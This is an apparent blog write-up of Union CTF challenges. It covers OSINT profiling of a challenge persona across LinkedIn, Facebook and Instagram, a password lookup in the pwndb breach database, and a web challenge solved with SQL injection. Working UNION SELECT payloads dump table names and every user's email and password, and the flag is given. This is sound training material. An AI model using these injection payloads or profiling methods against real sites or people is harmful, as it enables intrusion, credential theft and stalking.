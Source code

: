 ```yaml
---
title: "Union CTF Writeup (Cr0wn's Lost Pwner (OSINT Category)"
date: 2021-02-21 11:00:00 -0800
categories: [CTF, writeup]
tags: [writeup, web, osint]
toc: true
---
```


> Union CTF is a jeopardy-style CTF aiming for a medium difficulty, organised by the UK-based cr0wn team.

## Name (1)

```
Brian S from Newport left Crown in 2014 to become regional sales manager. He was really great at pwn but wanted to pursue his childhood goal of making as much money as possible.

What is Brian's Last name?

Please note this does not require the flag format.

Author: BananaMan
```

Ok, we get a little bit of information about someone and we have to track them down on the internet. The things I noted here are:

1) Crown is not spelled as cr0wn, meaning it is something different. I googled companies with the name Crown and there were so many results that I decided to ignore this bit of information initially.

2) His job title is ``Regional Sales Manager``. 

3) The fact that he wants to "make as much money as possible.

4) He is from Newport.

Given that this information is tied to someone's professional life, I decided to use this information to search for Brian on LinkedIn.

To find Brian, I utilized LinkedIn's filters.

I did a search for ``Brian`` and used the keyword title filter ``Regional Sales Manager`` Additionally, for the location filter, I tried every ``Newport`` that I could. For Newport Beach, CA:

![linkedin1](https://i.ibb.co/WyxjBS7/image.png)

![linkedin2](https://i.ibb.co/6BrmJwP/image.png)

And we find this [LinkedIn Profile!](https://www.linkedin.com/in/brian-schuler-930a87/)

Last Name: ``Schuler``.

## Brian's CV

On his LinkedIn profile, he includes his CV which has answers for the following problems:

```
Email (1)
Address (1)
Address (2)
Address (3)
Number (1)
Number (2)
```

## Sports

In the "interests" section on LinkedIn, we can see the Angels:

![linkedin3](https://i.ibb.co/TTjsX8Q/image.png)

## Name(2), Business

After thourougly going through his LinkedIn profile, I could not find this information so I decided to look for different social media accounts.

I ended up finding his [facebook account](https://www.facebook.com/brian.schuler.7528) using the information from LinkedIn.

Here, we can see in his friends list that his wife's name is ``Denise`` and that he currently a ``Small Business Owner at Ohana Hui``.

## Dates(1)

```
What day and month is Brian's Birthday?
```

From his facebook account:

![birthday](https://i.ibb.co/7gYhF6r/image.png)

## Transportation

```
What is the license plate number of Brian's car?
```

I could not find this information from his Facebook account, so I decided to look for another social media account.

I ended up finding his [instagram account](https://www.instagram.com/bkschuler/?hl=en), using his daughter's username.

I found a post from July 21, 2017 containing his license plate.

## Date (2)

```
What date did Brian and his wife marry on?
```

Going through his instagram posts, I see an image where he and his wife are at a "Hitching Post". It was posted on Feb 22, 2015 and the caption says that "23 years and 77 days ago his wife said yes". Using this, I was able to find his wedding date.

## Password (1), Password (2)

For these challenges, I utilized ``pwndb``. Using the emails learned from previous challenges, I searched the db and found his passwords in cleartext. 

## Email (3)

```
Can you find another organisational email address for Brian?
```

Looking at his CV back from LinkedIn, I went through where he had worked, looked up the email format for that company, and tried to enter it as the flag.

For the Independent Can company, I found their emails are usually set up like this:

```
<first><last_initial>@independentcan.com
```

So: ``brians@independentcan.com``.


## Meet the Union Committee (Web)

The profiles on this site are vulnerable to SQL injection.

```
http://34.105.202.19:1336/?id=2
```

Replacing with a single quote yeilds this:

```
Traceback (most recent call last):
  File "unionflaggenerator.py", line 49, in do_GET
    cursor.execute("SELECT id, name, email FROM users WHERE id=" + params["id"])
sqlite3.OperationalError: unrecognized token: "`"
```

So now we can easy go throuhg the database.

We know there are 3 columns based on the leaked query, so we can go straight to:

```
2 UNION SELECT null, 'a', null
```

Let's get table names:

```
2 UNION SELECT null, name, null FROM sqlite_master WHERE type ='table'

comments
sqlite_sequence
users
```

Let's get the columns from the users table:

```
2 UNION SELECT null, sql, null FROM sqlite_master WHERE tbl_name = 'users' AND type = 'table'

email, password, id
```

Now let's grab the email/password combos for everyone:

```
?id=2 UNION SELECT null,email || '~' || password, null FROM users
```

And we get the flag: ``union{uni0n_4ll_s3l3ct_n0t_4_n00b}``















